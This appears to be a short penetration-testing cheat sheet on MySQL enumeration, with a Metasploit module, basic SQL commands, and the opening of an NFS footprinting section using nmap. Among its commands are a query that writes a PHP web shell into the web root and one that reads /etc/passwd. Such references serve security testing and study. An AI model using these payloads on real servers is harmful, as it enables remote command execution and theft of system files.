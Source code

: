 > Enumeration with Metasploit

```
msf> use auxiliary/admin/mysql/mysql_enum
```

> Interesting commands

To show databases:

```
show databases;
```

Select database:

```
use <database>;
```

Show tables:

```
show tables;
```

More information about a table:

```
describe <tableName>;
```

To show columns from a table:

```
show columns from <table>;
```

Query example:

```
Select * from <table> where <column> = <string>";
```

Write local file:

```
select "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```

Read local file:

```
select LOAD_FILE("/etc/passwd");
```



## NFS

> Footprinting the service

```
sudo nmap <IP> -p111,2049 -sV -sC
```
